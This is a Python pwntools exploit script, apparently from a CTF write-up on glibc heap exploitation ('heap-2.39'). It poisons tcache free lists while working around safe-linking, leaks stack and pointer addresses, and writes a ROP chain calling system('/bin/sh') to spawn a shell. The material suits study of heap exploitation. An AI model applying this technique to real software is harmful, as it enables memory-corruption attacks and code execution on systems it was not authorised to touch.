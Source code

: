 ```python
create(2,0x60)
create(3,0x60)
delete(3)
delete(2)
edit(2,p64(environ^((heap_base+0x2a0)>>12)))

# leak stack
create(4,0x60)
create(5,0x60)
show(5)
p.recvuntil(b'content : ')
leak = u64(p.recv(6).ljust(8,b'\x00'))
stack_addr = leak-0x128
log.success('stack_addr : '+hex(stack_addr))

create(6,0x90)
create(7,0x90)
delete(7)
delete(6)
edit(6,p64(stack_addr^((heap_base+0x000380)>>12)))

# leak ptr
create(8,0x90)
create(9,0x90)
payload = cyclic(0x18)
edit(9,payload)
show(9)
p.recvuntil(b'content : ')
leak = u64(p.recv(0x18+6)[-6:].ljust(8,b'\x00'))
ptr = leak + 0x002956 
log.success('ptr : ' + hex(ptr))

create(10,0xa0)
create(11,0xa0)
delete(11)
delete(10)
edit(10, p64(ptr^((heap_base+0x4c0)>>12)))

create(12,0xa0)
create(13,0xa0)

target = stack_addr - 0x18
edit(13,p64(target))
log.info('target : ' + hex(target))

edit(0,p64(pop_rdi)+p64(binsh)+p64(ret)+p64(system_addr))

p.interactive()
```

## heap-2.39

